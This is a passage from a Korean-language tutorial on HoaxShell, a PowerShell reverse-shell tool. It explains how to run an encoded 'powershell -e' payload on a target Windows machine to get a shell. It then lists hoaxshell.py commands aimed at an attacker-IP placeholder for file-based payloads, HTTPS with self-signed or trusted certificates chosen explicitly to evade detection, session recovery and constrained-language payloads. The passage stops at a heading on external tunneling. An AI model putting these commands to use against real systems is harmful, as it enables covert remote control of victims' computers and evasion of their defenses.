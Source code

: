위 코드의 `powershell -e` 부분 부터 복사하여 타겟 윈도우의 파워쉘 창에서 실행시키면 쉘이 획득된다.


***

#### 2. 파일 기반 페이로드 생성

```bash
sudo python3 hoaxshell.py -s <공격자_IP> -x "C:\\Users\\$env:USERNAME\\.local\\hack.ps1"
```

- 지정한 경로에 스크립트를 작성해 실행하는 페이로드 생성

***

#### 3. HTTPS 사용 (자체 서명 인증서)

```bash
# 자체 서명 인증서 생성
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# HoaxShell 실행 시 인증서 적용
sudo python3 hoaxshell.py -s <공격자_IP> -c /path/to/cert.pem -k /path/to/key.pem
```

- HTTPS 트래픽으로 암호화하여 탐지 위험 감소

***

#### 4. 신뢰할 수 있는 인증서 사용 (도메인 필요)

```bash
sudo python3 hoaxshell.py -s your.domain.com -t -c /path/to/cert.pem -k /path/to/key.pem
```

- 실제 도메인과 공인 인증서 사용 시 더 탐지하기 어려운 페이로드 생성

***

#### 5. 세션 복구 모드

```bash
sudo python3 hoaxshell.py -s <공격자_IP> -g
```

- 세션이 끊겼을 때 재접속을 시도해 기존 세션 복구

***

#### 6. Constraint Language 모드 지원

```bash
sudo python3 hoaxshell.py -s <공격자_IP> -cm
```

- 제한된 PowerShell 환경에서 동작하도록 조정된 페이로드 생성

***

#### 7. 외부 터널링 도구 연동
